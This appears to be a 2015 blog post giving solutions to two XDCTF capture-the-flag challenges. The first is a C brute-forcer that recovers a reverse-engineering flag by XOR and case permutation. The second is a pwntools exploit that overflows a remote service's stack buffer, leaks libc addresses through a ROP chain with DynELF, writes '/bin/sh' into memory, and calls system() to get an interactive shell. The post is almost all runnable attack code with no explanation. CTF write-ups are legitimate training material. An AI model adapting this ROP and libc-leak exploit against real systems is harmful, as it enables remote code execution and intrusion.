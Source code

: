 ```yaml
---
layout: post
title: "xdctf_re100&amp;pwn200"
date: 2015-10-01 23:59:19 +0800
comments: true
categories: 
---
```


###0x00 re100

	#include<stdio.h>
	#include<stdlib.h>
	#include<string.h>

	//char *key = "\\\|Gq\\@?BelTtK5L`\\|D`d42;";
	char *key = "\x5a\x7a\x41\x77\x5a\x46\x39\x44\x63\x6a\x52\x72\x4d\x33\x4a\x66\x5a\x7a\x42\x66\x62\x32\x34\x3d";
	char *res = "\;%#848N!0Z?7'%23]/5#1\"YX";
	char cipher[30];

	char TMP[30];


	int main()
	{
		int i,j, k;
		int tmp;
		char tmpc;
		memset(cipher, 0, 30);
		memset(TMP, 0, 30);
		puts("key");
		for(i=0; i<strlen(key); i++)
		{
			printf("%3x", key[i]);
		}	 
		puts("\nres");
		for(i=0; i<strlen(key); i++)
		{
			printf("%3x", res[i]);
		}	 
		puts("");
		

		for(int l1=0; l1<2; l1++)
		for(int l2=0; l2<2; l2++)
		for(int l3=0; l3<2; l3++)
		for(int l4=0; l4<2; l4++)
		for(int l5=0; l5<2; l5++)
		for(int l6=0; l6<2; l6++)
		for(int l7=0; l7<2; l7++)
		for(int l8=0; l8<2; l8++)
		for(int l9=0; l9<2; l9++)
		for(int l10=0; l10<2; l10++)
		for(int l11=0; l11<2; l11++)
		for(int l12=0; l12<2; l12++)
		for(int l13=0; l13<2; l13++)
		for(int l14=0; l14<2; l14++)
		for(int l15=0; l15<2; l15++)
		for(int l16=0; l16<2; l16++)
		for(int l17=0; l17<2; l17++)
		for(int l18=0; l18<2; l18++)
		for(int l19=0; l19<2; l19++)
		{
			for(j = 0; j<25; j++)
				TMP[j] = res[j];
			TMP[0]	= l1==0?TMP[0]  - 0x20:TMP[0];
			TMP[1]	= l2==0?TMP[1]  - 0x20:TMP[1];
			TMP[2]	= l3==0?TMP[2]  - 0x20:TMP[2];
			TMP[3]  = l4==0?TMP[3]  - 0x20:TMP[3];
			TMP[4]  = l5==0?TMP[4]  - 0x20:TMP[4];
			TMP[5]  = l6==0?TMP[5]  - 0x20:TMP[5];
			TMP[7]	= l7==0?TMP[7]  - 0x20:TMP[7];
			TMP[8]  = l8==0?TMP[8]  - 0x20:TMP[8];
			TMP[10]	= l9==0?TMP[10] - 0x20:TMP[10];
			TMP[11] = l10==0?TMP[11] - 0x20:TMP[11];
			TMP[12] = l11==0?TMP[12] - 0x20:TMP[12];
			TMP[13] = l12==0?TMP[13] - 0x20:TMP[13];
			TMP[14] = l13==0?TMP[14] - 0x20:TMP[14];
			TMP[15] = l14==0?TMP[15] - 0x20:TMP[15];
			TMP[17] = l15==0?TMP[17] - 0x20:TMP[17];
			TMP[18] = l16==0?TMP[18] - 0x20:TMP[18];
			TMP[19] = l17==0?TMP[19] - 0x20:TMP[19];
			TMP[20] = l18==0?TMP[20] - 0x20:TMP[20];
			TMP[21] = l19==0?TMP[21] - 0x20:TMP[21];
			for(i=0; i<12; i++)		//change
			{
				tmpc = TMP[i];
				TMP[i] = TMP[17 - i];
				TMP[17 - i] = tmpc;
			}
			for(i=0; i<24; i++)		//xor
			{
				//TMP[i] = TMP[i]^key[i]^7;
				TMP[i] = TMP[i]^key[i];
			}
			if(0 == strncmp(TMP,&TMP[12],12))
			{
				int sig=1;
				for(int ge=0; ge<12; ge++)
					if(TMP[ge]<=0x61 )
						sig = 0;
				printf("%s\n", TMP);
				TMP[12]=0;
				printf("%s\n", TMP);
			}
		}              

		
	}

###0x01 pwn200

	from pwn import *
	from binascii import *

	func = 0x08048484
	main = 0x080484BE
	write_plt = 0x080483C0
	read_plt = 0x08048390
	read_got = 0x0804A004
	#data_addr = 0x804A044
	data_addr = 0x804A014



	f = open('input', 'w')

	#r = process("./c1")
	r = remote('133.130.111.139', 2333)

	def leak(addr):
		print r.recvuntil("XDCTF2015~!")
		payload  = ''
		payload += "A"*0x6c
		payload += "BBBB"
		payload += p32(write_plt)
		payload += p32(main)
		payload += p32(1)
		payload += p32(addr)
		payload += p32(4)
		r.sendline(payload)
		data = r.recv(4)
		data = r.recv(4)
		print 'addr',hex(addr),'=>',hex(u32(data))
		return data

	def write_addr(addr, cont, system_addr):
		print r.recvuntil("XDCTF2015~!")
		payload  = ''
		payload += "C"*0x6c
		payload += "DDDD"
		payload += p32(read_plt)
		payload += p32(system_addr)
		payload += p32(0)
		payload += p32(addr)
		payload += p32(len(cont))
		payload = payload.ljust(0x100, 'E')
		payload += cont
		r.sendline(payload)
		f.write(payload+'\n')

	d = DynELF(leak, elf=ELF('./c1'))
	system_addr = d.lookup('system','libc')
	print "system_addr=" + hex(system_addr)
	write_addr(data_addr, '/bin/sh', system_addr)


	f.close()
	r.interactive()
